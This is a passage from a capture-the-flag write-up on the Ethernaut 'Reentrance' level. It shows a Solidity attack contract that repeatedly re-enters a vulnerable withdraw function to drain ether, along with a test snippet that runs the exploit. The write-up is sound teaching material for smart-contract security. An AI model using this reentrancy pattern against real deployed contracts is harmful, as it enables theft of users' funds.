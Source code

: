 I see a couple of problems in this logic, but I have no better explanation for
why the `balances` underflowed.

## Proof of Concept - hypothesis test ✅

Here is the attack contract
([full version here](https://github.com/ChmielewskiKamil/ethernaut-foundry/tree/main/src/levels/10-Reentrance/ReentranceAttack.sol))

```solidity
// snippet...

contract ReentranceAttack {
	Reentrance reentrance;

	constructor(address _reentranceContractAddress) public {
		reentrance = Reentrance(payable(_reentranceContractAddress));
	}

	function sendDonation() public payable {
		reentrance.donate{value: msg.value}(address(this));
	}

	function attack(uint256 _amountToWithdraw) public {
		reentrance.withdraw(_amountToWithdraw);
	}

	receive() external payable {
		reentrance.withdraw(msg.value);
	}
}
```

This is the simplified version of the unit test exploiting the contract:

```solidity
// snippet...

reentranceAttack.sendDonation{value: 0.01 ether}();

reentranceAttack.attack(0.01 ether);

// snippet...
```

Given the Ethernaut game setup (`0.001 ether` in the contract initially and
`0.001 ether` donated) exploiting the level is quite easy and cheap.

![Forge test gas report](https://github.com/ChmielewskiKamil/ethernaut-foundry/blob/main/img/10-gas-report-cheap.png?raw=true)
